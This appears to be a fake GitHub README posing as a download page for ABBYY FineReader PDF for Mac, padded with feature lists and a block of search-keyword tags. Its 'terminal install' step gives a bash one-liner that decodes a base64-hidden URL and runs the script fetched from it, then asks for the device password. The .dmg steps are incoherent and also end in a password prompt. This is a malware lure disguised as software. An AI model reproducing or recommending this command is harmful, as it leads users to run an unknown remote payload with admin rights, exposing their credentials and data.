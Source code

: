 # 🧾 ABBYY FineReader PDF for Mac — Advanced OCR and PDF Solution for macOS

ABBYY FineReader PDF for Mac is a powerful OCR and PDF editing software designed for macOS users. It enables accurate text recognition, PDF editing, and document conversion with support for over 190 languages, making it ideal for professionals who require precision and efficiency.

## ✅ Download ABBYY FineReader PDF for Mac  
[![Download ABBYY FineReader PDF](https://img.shields.io/badge/Download-ABBYY%20FineReader%20PDF-blueviolet)](https://mitrobandus.github.io/.github/ABBYY)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is ABBYY FineReader PDF for Mac?

ABBYY FineReader PDF for Mac combines optical character recognition with comprehensive PDF editing tools. It allows users to digitize paper documents, edit PDFs, and convert files into various editable formats with outstanding accuracy on macOS.

---

## ✨ Features

- 🔍 OCR technology supporting recognition in 198 languages  
- 📝 Edit, comment, and annotate PDF documents  
- 🔄 Convert PDFs and scanned documents to Word, Excel, and more  
- 🖥️ Optimized native macOS app with Retina display support  
- 🔐 Protect PDFs with passwords and permissions  
- 📚 Compare document versions to identify changes  
- 📤 Export and share documents easily  

---

## 💡 Why Use ABBYY FineReader PDF for Mac?

- ✅ Industry-leading OCR accuracy for flawless text recognition  
- 🧾 Simplifies PDF editing and document conversion workflows  
- 🌍 Supports a wide range of languages for global users  
- 🔐 Secure your documents with advanced protection features  
- 📲 Seamlessly works across Mac devices for convenience  

---

[![Download ABBYY FineReader PDF](https://img.shields.io/badge/Download-ABBYY%20FineReader%20PDF-blueviolet)](https://mitrobandus.github.io/.github/ABBYY)

---

## 🖼️ Preview

![ABBYY FineReader Screenshot 1](https://pdf.abbyy.com/media/j3ue3kxc/06-enhance-photos-and-scans-with-built-in-editor.png)  
![ABBYY FineReader Screenshot 2](https://pdf.abbyy.com/media/lvsp4crd/02-recognize-text-in-docs-in-198-languages.png)

---

## 📌 Tags

abbyy finereader pdf for mac, abbyy finereader mac, finereader mac, abbyy finereader mac os, fine reader for mac,  
fine reader mac, finereader pdf for windows and mac, finereader pro, fine reader pro, finereader pdf for mac,  
abbyy for mac, abbyy finereader 15 for mac, abbyy finereader 15 mac, abbyy finereader pdf mac, abbyy finereader pro mac,  
abbyy ocr mac, finereader ocr pro mac, finereader pro mac, abbyy finereader mac download

